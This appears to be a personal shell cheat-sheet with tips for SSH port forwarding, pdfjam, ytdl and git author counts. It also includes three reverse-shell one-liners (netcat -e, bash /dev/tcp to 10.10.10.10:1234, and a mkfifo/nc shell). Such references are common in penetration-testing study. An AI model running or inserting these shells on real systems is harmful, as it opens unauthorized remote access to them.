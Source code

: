 
## SSH Remote port forwarding

    $ ssh -N -R 9000:localhost:5000 user@example.com

This forwards any requests sent on port 9000 of example.com to the localhost
port of 5000. So basically you are exposing port 5000 on your localhost.
The `-N` flag just tells ssh to not log-in to the server

The following should be enabled in `/etc/ssh/sshd_conf` of the ssh server
(at example.com):
```/etc/ssh/sshd_conf
AllowTcpForwarding yes
GatewayPorts yes
```

## Get information about a YT video

    $ ytdl -i https://youtu.be/KaEj_qZgiKY 

ytdl comes with 'python-pafy' package on arch


## Change pdf page size

    $ pdfjam --outfile out.pdf --paper a4paper in.pdf 


## Reverse Shell using netcat
    
    $ nc -e /bin/sh 10.10.10.10 1234

    
## Reverse Shell using Bash

    $ bash -i >& /dev/tcp/10.10.10.10/1234 0>&1

you then listen for a connection on remote with `nc -l 1234`


## Reverse Shell using /bin/sh

    $ rm -f /tmp/f; mkfifo /tmp/f
    $ cat /tmp/f | /bin/sh -i 2>&1 | nc -l 1234 > tmp/f

On remote simply connect using nc on port 1234.

This is actually documented in the man page of netcat that doesn't have the
`-e`/`-c` option.


## List the authors of a git repo in descending order of number of commits

    $ git log --format='%an'| sort | uniq -c | sort -nr
